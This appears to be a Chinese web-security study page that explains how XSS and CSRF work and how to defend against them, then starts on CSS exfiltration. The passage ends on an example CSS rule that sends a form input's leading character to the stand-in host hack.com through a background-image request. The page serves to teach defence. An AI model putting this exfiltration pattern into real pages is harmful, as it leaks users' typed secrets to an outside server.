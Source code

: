 ```yaml
---
title: Security Mind Map
description: 网络安全知识导图，包含 XSS、CSRF、CSS Exfiltration 等常见攻击手段的原理分析和防范措施。
---
```


## 领域

* [Web Crypto API](/maps/_web/browser-api/crypto)

## 概念

#### XSS 的原理是怎么样的？

XSS（Cross Site Scripting）跨站脚本攻击，通过某种方式将非法代码挂载在 URL、或者后端数据中，以达到让浏览器执行的目的。反射型 XSS 和储存型 XSS 都是利用后端返回的非法脚本直接在前端展示，就得到了执行。DOM-Based XSS 是通过修改源码内容来执行的。比如说，反射型 XSS 可能是一封黑客的邮件，链接参数带上了脚本代码；储存型 XSS 在可视化编辑器中很常见；DOM-Based XSS 可能是执行了一段 URL Hash 里面拿到的文本。

#### XSS 有哪些危害，怎么防范？

XSS 可以用来盗取 Cookie、DDos、篡改数据等。防范最基本要做的就是是后端不应该信任前端传来的数据，并且要做好过滤，把字符转义为 HTML 实体。其次是给 Cookie 设上 http-only。

#### CSRF 攻击原理是怎么样的？

CSRF（Cross Site Request Forgery）跨站请求伪造，主要原理是黑客利用了用户在敏感站点保持的登录态，在另一个用户访问的网页去伪造敏感站点的请求。

#### CSRF 怎么防范？

可以使用 CSRF token 方案。每次用户请求 HTML 都在其中设置一个随机的 Token，在请求时带上。

## 三剑客

#### CSS Exfiltration 攻击原理是什么？

```css
input[value^=a]{
  background-image: url(http://hack.com/a);
}
```
